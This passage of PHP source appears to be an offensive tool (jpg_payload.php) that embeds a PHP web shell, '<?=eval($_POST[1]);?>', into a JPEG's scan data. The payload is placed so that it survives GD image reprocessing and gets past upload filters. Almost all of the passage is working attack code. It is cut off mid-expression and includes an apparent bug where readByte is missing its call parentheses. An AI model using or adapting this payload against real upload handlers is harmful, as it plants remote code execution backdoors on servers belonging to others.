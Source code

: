 ```php
1) After the second processing the injected data may become partially corrupted.
2) The jpg_payload.php script outputs "Something's wrong".
If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.

Sergey Bobrov @Black2Fan.

See also:
https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

*/

$miniPayload = "<?=eval(\$_POST[1]);?>";


if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
    die('php-gd is not installed');
}

if(!isset($argv[1])) {
    die('php jpg_payload.php <jpg_name.jpg>');
}

set_error_handler("custom_error_handler");

for($pad = 0; $pad < 1024; $pad++) {
    $nullbytePayloadSize = $pad;
    $dis = new DataInputStream($argv[1]);
    $outStream = file_get_contents($argv[1]);
    $extraBytes = 0;
    $correctImage = TRUE;

    if($dis->readShort() != 0xFFD8) {
        die('Incorrect SOI marker');
    }

    while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
        $marker = $dis->readByte();
        $size = $dis->readShort() - 2;
        $dis->skip($size);
        if($marker === 0xDA) {
            $startPos = $dis->seek();
            $outStreamTmp =
                substr($outStream, 0, $startPos) .
                $miniPayload .
                str_repeat("\0",$nullbytePayloadSize) .
                substr($outStream, $startPos);
            checkImage('_'.$argv[1], $outStreamTmp, TRUE);
            if($extraBytes !== 0) {
                while((!$dis->eof())) {
                    if($dis->readByte() === 0xFF) {
                        if($dis->readByte !== 0x00) {
                            break;
                        }
                    }
                }
                $stopPos = $dis->seek() - 2;
                $imageStreamSize = $stopPos - $startPos;
                $outStream =
                    substr($outStream, 0, $startPos) .
                    $miniPayload .
                    substr(
                        str_repeat("\0",$nullbytePayloadSize).
```